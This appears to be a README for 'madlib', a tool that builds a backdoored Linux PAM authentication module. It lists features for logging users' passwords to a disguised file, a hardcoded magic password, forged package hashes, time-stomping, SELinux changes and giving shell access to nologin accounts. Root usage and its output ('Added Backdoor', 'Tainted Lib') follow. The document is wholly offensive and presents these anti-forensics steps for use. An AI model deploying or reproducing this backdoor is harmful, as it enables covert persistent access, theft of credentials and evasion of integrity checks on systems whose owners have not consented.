 # madlib
This is madlib, but it supports local files for the pam source code so it doesn't have to download anything.
## Features: 
* Logs username/passwords to file
* Obfuscates backdoor password with bcrypt (helps make reverse engineering more difficult and string dumps less effective)
* Automatically updates the DPKG MD5 hashes for all moved/replaced files
* Time stomps all moved/replaced files
* Updates SE Linux configuration to allow for changed file
* Replaces /bin/false, and /bin/nologin with /bin/bash (effectively making any user able to ssh in)
## Requirements:
* Requires Python3
* Root privileges needed
## Default Entries:
* Username/passwords by default are logged to `/usr/include/type.h`
* The default magic password is `secretpassxd`


## Usage

Manually Specifying PAM Version:

```
root@homebase /h/r/madlib# ./pam.py "1.3.0"
                    .___.__  ._____.
  _____ _____     __| _/|  | |__\_ |__
 /     \\__  \   / __ | |  | |  || __ \
|  Y Y  \/ __ \_/ /_/ | |  |_|  || \_\ \
|__|_|  (____  /\____ | |____/__||___  /
      \/     \/      \/              \/
    https://github.com/rek7/madlib/
[00:15:55] [+] PAM TAR Download Completed
[00:15:56] [+] Finishing Extracting
[00:15:56] [+] Added Backdoor
[00:16:16] [+] Finished Compiling Tainted Lib
[00:16:16] [+] Finished Successfully Compiled PAM File Moved to: '/lib/x86_64-linux-gnu/security/pam_unix.so'
```

Automatic Version Detection:

```
root@homebase /h/r/madlib# ./pam.py
                    .___.__  ._____.
  _____ _____     __| _/|  | |__\_ |__
 /     \\__  \   / __ | |  | |  || __ \
|  Y Y  \/ __ \_/ /_/ | |  |_|  || \_\ \
|__|_|  (____  /\____ | |____/__||___  /
      \/     \/      \/              \/
    https://github.com/rek7/madlib/
[00:17:55] [!] Detected PAM Version: '1.3.0'
[00:17:55] [+] PAM TAR Download Completed
[00:17:56] [+] Finishing Extracting
[00:17:56] [+] Added Backdoor
[00:18:16] [+] Finished Compiling Tainted Lib
[00:18:16] [+] Finished Successfully Compiled PAM File Moved to: '/lib/x86_64-linux-gnu/security/pam_unix.so'
```
